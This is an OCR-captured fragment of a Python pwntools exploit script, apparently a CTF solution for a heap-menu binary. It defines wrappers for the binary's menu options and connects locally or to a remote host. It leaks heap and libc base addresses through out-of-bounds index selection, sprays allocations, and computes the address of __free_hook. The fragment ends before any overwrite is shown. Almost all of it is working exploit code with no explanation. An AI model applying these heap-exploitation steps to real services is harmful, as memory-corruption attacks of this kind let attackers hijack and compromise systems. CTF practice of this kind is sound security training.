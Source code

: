 ```python
  log.failure("libc not found !")

def sp_del(index):
  r.sendline("1")
  r.sendline(str(index))
  pass

def sp_get(index):
  r.sendline("2")
  r.sendline(str(index))
  pass

def sp_nth(index):
  r.sendline("3")
  r.sendline(str(index))
  pass

def sp_select(index):
  r.sendline("4")
  r.sendline(str(index))

def sp_add(index,data):
  r.sendline("5")
  r.sendline(str(index))
  r.sendline(str(data))

def sp_isolate(index,data):
  r.sendline("6")
  r.sendline(str(index))
  r.sendline(str(data))

def sp_isolate2(index,data1,data2):
  r.sendline("7")
  r.sendline(str(index))
  r.sendline(str(data1))
  r.sendline(str(data2))

if len(sys.argv) == 1:
  r = process([binary, "0"], env={"LD_LIBRARY_PATH":"."})

else:
  r = remote(host ,port)

if __name__ == '__main__':
  sp_add(0x11,0)
  sp_add(0x12,0)
  sp_select(531)
  heap = int(r.recvline()) - 0x12f8
  print("heap = {}".format(hex(heap)))
  sp_select(0)
  r.recvline()
  sp_add(0x13,0)
  sp_add(0x14,0)
  sp_add(0x1,0)
  sp_add(0 ,heap+0x30b0)
  for i in xrange(155):
    sp_add(0x20+i ,0)
  sp_select(-1865)
  libc = int(r.recvline()) - 0x3ebca0
  print("libc = {}".format(hex(libc)))
  sp_select(0)
  r.recvline()
  free_hook = 0x3ed8e8 + libc
```